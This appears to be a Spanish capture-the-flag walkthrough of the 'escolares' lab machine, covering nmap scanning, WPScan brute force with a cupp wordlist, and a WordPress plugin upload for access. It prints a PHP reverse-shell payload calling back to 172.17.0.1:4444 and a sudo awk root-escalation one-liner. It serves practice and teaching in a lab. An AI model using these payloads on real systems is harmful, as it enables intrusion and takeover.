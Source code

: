 ```yaml
---
Maquina: escolares
SO: Linux
Explotación: Análisis de web
Escala_privs: Permisos sudo / Procesos root
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - web
  - nibbleblog
  - procesos
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241030175501.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241030175535.png]]

Es una página web muy chula sobre la universidad de ingenieros y habla sobre "conceptos" de ciberseguridad. Vamos a explorar a ver si encontramos algunos detalles curiosos en la web.

Indagando un poco por la web me ha parecido encontrar algo un poco sospechoso en el listado de profesores, parece que Luis nos ha dicho un usuario o contraseña y parece que es de un wordpress (admin wordpress)

![[Pasted image 20241030175830.png]]

Parece que si que tienen un wordpress con acceso al panel de login 

![[Pasted image 20241030181029.png]]

Muy importante añadir excolares.dl al /etc/hosts para que nos reconozca este sitio desde la ip de docker.

Ahora vamos a probar el usuario y pass que nos ha dado tan amablemente Luís y ver si cuela.

![[Pasted image 20241030181321.png]]

Parece que no cuela, pero ya sabemos que el usuario luisillo si que existe...

Pues tras probar varias herramientas la palma se la lleva WPscan y cupp.

WPscan una herramienta enfocada al análisis de wordpress y la cual nos permite realizar ataques de fuerza bruta como este

```bash
wpscan --url http://escolares.dl/wordpress --usernames luisillo --passwords /home/alejandro/wordlist/rockyou.txt
```

Cupp una herramienta que nos permite generar diccionarios a partir de datos personales de un usuario.

Si ejecutamos cupp -i y vamos añadiendo inforamción sobre Luis nos dará un diccionario enorme con posibles passwd.

Si despues le decimos a WPscan que intente iniciar sesión con ese diccionario obtenemos lo siguiente

![[Pasted image 20241031131747.png]]

Ya tenemos el usuario luisillo con passwd -> Luis1981 (y sabemos que es admin de wp)

![[Pasted image 20241031153834.png]]

Pues si que nos deja logearnos y para rematar vamos a conseguir una reverseshell a partir de la creación de un plugin. Es sencillo tan solo tenemos que poner un código malicioso en php, comprimirlo en zip y activar dicho plugin en wordpress

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");
?>
```

En cuanto le damos a activar en el propio wordpress nos mandará una conexión a nuestra terminal.

![[Pasted image 20241031155437.png]]

![[Pasted image 20241031155453.png]]

Listo, ya estamos dentro. Ahora lo que tenemos que hacer es el tratamiento de terminal para pasar a una tty funcional.

![[Pasted image 20241031155728.png]]

Una vez con el tratamiento realizado toca pasar a la acción y ver que permisos tenemos o a donde podemos llegar a acceder...

![[Pasted image 20241031155828.png]]

Tras indagar un poco (realmente poco) nos topamos con una posible contraseña de luisillo -> iuisillopasswordsecret... Vamos a intentar logearnos a su usuario.

```bash
su luisillo
```

![[Pasted image 20241031161033.png]]

Y tras probar a ver los permisos que tenemos con sudo -l descubrimos que tenemos permisos para ejecutar awk como root.

![[Pasted image 20241031161128.png]]

Nos dirigimos a GTFObins y vemos a ver si nos topamos con ua autentica ventana para escalar privs...

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![[Pasted image 20241031161339.png]]

